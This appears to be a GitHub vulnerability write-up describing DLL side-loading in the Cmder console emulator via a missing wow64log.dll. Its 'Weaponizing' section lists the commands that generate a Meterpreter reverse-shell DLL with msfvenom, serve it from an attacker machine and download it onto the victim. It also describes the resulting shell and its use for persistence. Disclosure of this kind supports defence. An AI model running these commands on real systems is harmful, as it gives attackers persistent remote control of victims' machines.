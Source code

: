 # Cmder DLL Side-Loading v1.3.25 (Full and Mini Versions)
According to https://cmder.app/ it is:
````
Cmder is a software package created out of pure frustration over the absence of nice
console emulators on Windows. It is based on amazing software, and spiced up with
the Monokai color scheme and a custom prompt layout, looking sexy from the start.
````
- I couldnt agree more, it is a great application and I use it on all my Windows systems.
- This repo details an issue in the Cmder application (Full and Mini Versions) in which a DLL is seached for and not found allowing an attacker the ability to get code execution

## Application Link
- https://cmder.app/
- https://github.com/cmderdev/cmder

## Overview
- In Sysinternals ProcessMonitor we can set three basic filters seen below
````
Process Name is Cmder.exe
Path Ends With .dll
Result is NAME NOT FOUND
````
![image](https://github.com/user-attachments/assets/57aa37ee-1d6a-4ef8-b19f-6aeee77faf46)
- The cmder application (Full version and Mini Version) both search for a dll located under `C:\Windows\System32\wow64log.dll`, however it cannot be found and is not included with Windows.
![image](https://github.com/user-attachments/assets/cc8ae186-ba31-47c4-8f33-2e1b48d3761d)

## Weaponizing
- We can generate a simple msfvenom DLL and place it under `C:\Windows\System32`, naming it `wow64log.dll`
````
# Generate the malicious DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.15.130 LPORT=4444 -f dll -o wow64log.dll
# Host the payload
python3 -m http.server
# Transfer the payload to the victim system
cd C:\Windows\System32
iwr http://kali.space:8000/wow64log.dll -o wow64log.dll
````
- Upon opening the application we will recieve a call back.
- From testing your Meterpreter shell will drop you into `C:\Windows` and your pid will be associated to `rundll32.exe`. Your PPID will no longer be running on the system.
![image](https://github.com/user-attachments/assets/ef851afc-fae9-43a6-bc10-1c52aa2e3a4a)

## Privileges
- From testing if the Cmder application is run without Administrator permissions you will recieve a shell in the context of your user account.
- If the Cmder application is run WITH Administrator permissions you will recieve a shell in the context of the Admin privileged account.
![image](https://github.com/user-attachments/assets/df922eee-615b-40a2-858f-1e9a1eaed4fd)
![image](https://github.com/user-attachments/assets/a1d8e088-1b7c-4613-a1d3-9695238a939a)

## Notes
- It should be noted that an attacker would require Administrator permissions in order to take advantage of this vulnerability. This is due to the missing DLL being located under `System32`. While this technique does not allow an attacker to priviledge escalate it does provide a potential persistance mechanism. This DLL Side Loading issue allows an attacker to gain code execution anytime the application Cmder is opened.
- When the Meterpreter `wow64log.dll` is loaded onto the system and the `Cmder` application is run we will get our callback HOWEVER the `Cmder` application will not open.
- While you have an open shell on the sytem if the `Cmder` application is run again you will not recieve a second shell. However if you were to migrate to a new process and the `Cmder` application were to be run again, you would recieve a second shell. The `Cmder` application will still fail to open as long as your Meterpreter DLL is on the system.
## Credits 
- Discovered by ice-wzl in conjunction with Solstice Cyber Solutions
